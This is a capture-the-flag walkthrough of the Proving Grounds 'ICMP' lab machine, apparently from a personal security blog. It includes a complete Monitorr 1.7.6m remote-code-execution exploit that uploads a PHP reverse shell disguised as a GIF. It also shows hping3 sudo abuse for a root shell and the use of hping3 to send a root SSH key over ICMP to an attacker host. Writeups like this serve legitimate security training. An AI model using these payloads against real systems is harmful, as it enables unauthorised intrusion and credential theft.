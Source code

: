 ```yaml
---
title: "Proving grounds Play: ICMP"
layout: post
date: 2023-07-15 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```

# Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/ICMP/youtube.png)](https://youtu.be/6fyL_fFyV4c)

## NMAP

![img](/assets/images/CTF/Proving_Grounds/ICMP/nmap.png)

## PORT 80 Tech Stack

- Operating System: Debian
- Web Technology: Apache, PHP (view-page-source)

## Monitorr

![img](/assets/images/CTF/Proving_Grounds/ICMP/monitorr%20version.png)

![img](/assets/images/CTF/Proving_Grounds/ICMP/searchsploit_search.png)

### Exploit Code

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
### Obtaining Reverse Shell

![img](/assets/images/CTF/Proving_Grounds/ICMP/rce1.png)

**Obtained local flag**

![img](/assets/images/CTF/Proving_Grounds/ICMP/local_flag.png)

# Privilege Escalation
### Obtain user

The permission is denied to access the `devel` folder as current user is not a system user. But as the tip found in the reminder file below.

![img](/assets/images/CTF/Proving_Grounds/ICMP/reminder.png)

The php file `crypt.php` inside the `devel` folder disclosed the SSH password for the user `fox`.

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```
**User access obtained.**

![img](/assets/images/CTF/Proving_Grounds/ICMP/user.png)

## Root Privilege Escalation

Check the current user sudo permissions.

![img](/assets/images/CTF/Proving_Grounds/ICMP/sudo-l.png)

Search for exploit in GTFO bins for `hping3`

### Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```sh
sudo hping3
/bin/sh
```

The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:
```sh
sudo hping3 --icmp --listen xxx --dump
```

RHOST=attacker.com
LFILE=file_to_read
```sh
sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
```

## Transfering SSH key locally to obtain root access through hping3

### ICMP Listener

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp-listener.png)

### ICMP: Data send

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_key_send.png)

### ICMP: Data Receive

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_root_ssh_key.png)

## SSH Root User

SSH to the root user using the obtained root SSH key.

![img](/assets/images/CTF/Proving_Grounds/ICMP/root.png)

**Root user access and proof.txt obtained**

![img](/assets/images/CTF/Proving_Grounds/ICMP/proof.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
